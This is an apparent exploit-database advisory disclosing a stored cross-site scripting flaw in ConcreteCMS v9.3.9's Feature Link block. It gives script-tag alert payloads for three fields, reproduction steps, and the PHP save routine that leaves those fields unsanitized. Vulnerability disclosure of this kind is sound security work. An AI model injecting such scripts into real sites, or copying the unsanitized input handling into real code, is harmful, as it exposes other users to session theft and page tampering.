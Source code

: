 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Title field、Body Source field、Button Text field when adding a Feature Link block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Title');</script>
<script>alert('Body Source');</script>
<script>alert('Button Text');</script>
```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Feature Link block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Title field、Body Source field、Button Text field and then click ADD,the xss vulnerability appears.

Potentially problematic source code:
```php

public function save($args)
    {
        list($imageLinkType, $imageLinkValue) = $this->app->make(DestinationPicker::class)->decode('imageLink', $this->getImageLinkPickers(), null, null, $args);

        $args['buttonInternalLinkCID'] = $imageLinkType === 'page' ? $imageLinkValue : 0;
        $args['buttonFileLinkID'] = $imageLinkType === 'file' ? $imageLinkValue : 0;
        $args['buttonExternalLink'] = $imageLinkType === 'external_url' ? $imageLinkValue : '';
        $security = $this->app->make('helper/security');
        $args['icon'] = $security->sanitizeString($args['icon'] ?? '');
        $args = $args + [
            'fID' => 0,
        ];
        $args['fID'] = $args['fID'] != '' ? $args['fID'] : 0;

        parent::save($args);
    }
```